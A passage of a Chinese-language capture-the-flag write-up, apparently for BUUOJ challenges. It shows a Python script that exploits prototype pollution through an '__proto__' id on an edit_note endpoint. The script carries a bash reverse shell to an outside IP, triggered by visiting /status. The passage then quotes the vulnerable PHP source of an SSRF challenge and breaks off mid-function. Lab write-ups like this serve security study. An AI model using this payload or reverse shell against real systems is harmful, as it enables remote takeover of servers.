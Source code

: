 参数直接传会有一些问题用postman获取python
```PYTHON
import requests

url = "http://faccdaea-1505-4426-8438-9d245cbe7cab.node5.buuoj.cn:81/edit_note"

data= {
	"id": "__proto__",
	"author": "bash -i >& /dev/tcp/49.232.206.37/23456 0>&1",
	"raw": "wum0nster"
}

res = requests.post(url,data=data)
```

访问/status反弹shell
![](attachments/Pasted%20image%2020240331212832.png)

## 玄武组
### SSRFMe
```PHP
<?php  
function check_inner_ip($url)  
{    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);  
    if (!$match_result)  
    {  
        die('url fomat error');  
    }  
    try  
    {        $url_parse=parse_url($url);  
    }  
    catch(Exception $e)  
    {  
        die('url fomat error');  
        return false;  
    }    $hostname=$url_parse['host'];    $ip=gethostbyname($hostname);    $int_ip=ip2long($ip);  
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;  
}  
  
function safe_request_url($url)  
{  
  
    if (check_inner_ip($url))  
    {  
        echo $url.' is inner ip';  
    }  
    else  
    {        $ch = curl_init();        curl_setopt($ch, CURLOPT_URL, $url);        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);        curl_setopt($ch, CURLOPT_HEADER, 0);        $output = curl_exec($ch);        $result_info = curl_getinfo($ch);  
        if ($result_info['redirect_url'])  
        {            safe_request_url($result_info['redirect_url']);  
        }        curl_close($ch);        var_dump($output);  
```